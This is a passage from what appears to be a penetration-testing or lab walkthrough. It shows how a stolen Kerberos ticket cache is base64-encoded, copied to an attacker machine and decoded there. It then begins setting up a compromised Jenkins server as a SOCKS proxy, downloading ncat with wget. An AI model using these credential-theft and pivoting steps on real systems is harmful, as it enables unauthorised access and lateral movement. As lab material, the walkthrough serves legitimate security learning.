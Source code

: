 <br/>

To transfer the TGS to the attacker machine, first base64 encode the TGS:

```
base64 -w 0 < /tmp/krb5cc_123
```

![picture 53](images/2594f671853d85af70863eaf1a93f928483c7a9d26bf8b2800809361d4063d3d.png)  

<br/>

Then copy the output string and decode in the attacker machine:

```
echo -n "<copied string>" | base64 -d > krb5cc_123
```

![picture 54](images/ce75f8f42ad0d2b9db43ba1f9e0e0733befd421bebb7787ef5dda1bb0600d2d1.png)  


<br/>

## Setting Jenkin server as HTTP SOCKS Proxy

First download `ncat` on Kali Linux:

```
wget https://github.com/ZephrFish/static-tools/raw/master/ncat
``` 

<br/>
